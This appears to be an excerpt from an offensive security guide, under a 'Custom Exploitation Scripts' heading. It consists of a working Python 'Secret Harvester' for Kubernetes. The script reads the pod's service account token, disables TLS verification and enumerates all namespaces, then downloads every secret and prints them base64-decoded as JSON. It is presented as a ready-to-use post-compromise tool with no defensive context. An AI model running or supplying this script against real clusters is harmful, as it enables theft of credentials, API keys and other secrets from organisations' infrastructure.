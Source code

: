 ### Custom Exploitation Scripts

#### Secret Harvester
```python
#!/usr/bin/env python3
import requests
import base64
import json
import yaml

def harvest_secrets(api_server, token, namespace="all"):
    headers = {"Authorization": f"Bearer {token}"}
    
    if namespace == "all":
        # Get all namespaces
        url = f"{api_server}/api/v1/namespaces"
        resp = requests.get(url, headers=headers, verify=False)
        namespaces = [item['metadata']['name'] for item in resp.json()['items']]
    else:
        namespaces = [namespace]
    
    secrets_data = {}
    
    for ns in namespaces:
        try:
            url = f"{api_server}/api/v1/namespaces/{ns}/secrets"
            resp = requests.get(url, headers=headers, verify=False)
            
            if resp.status_code == 200:
                secrets = resp.json()['items']
                secrets_data[ns] = []
                
                for secret in secrets:
                    secret_info = {
                        'name': secret['metadata']['name'],
                        'type': secret.get('type', 'Unknown'),
                        'data': {}
                    }
                    
                    if 'data' in secret:
                        for key, value in secret['data'].items():
                            try:
                                decoded = base64.b64decode(value).decode('utf-8')
                                secret_info['data'][key] = decoded
                            except:
                                secret_info['data'][key] = value
                    
                    secrets_data[ns].append(secret_info)
                    
        except Exception as e:
            print(f"Error accessing namespace {ns}: {e}")
    
    return secrets_data

# Usage
if __name__ == "__main__":
    api_server = "https://kubernetes.default.svc:443"
    token = open("/var/run/secrets/kubernetes.io/serviceaccount/token").read()
    
    secrets = harvest_secrets(api_server, token)
    print(json.dumps(secrets, indent=2))
```
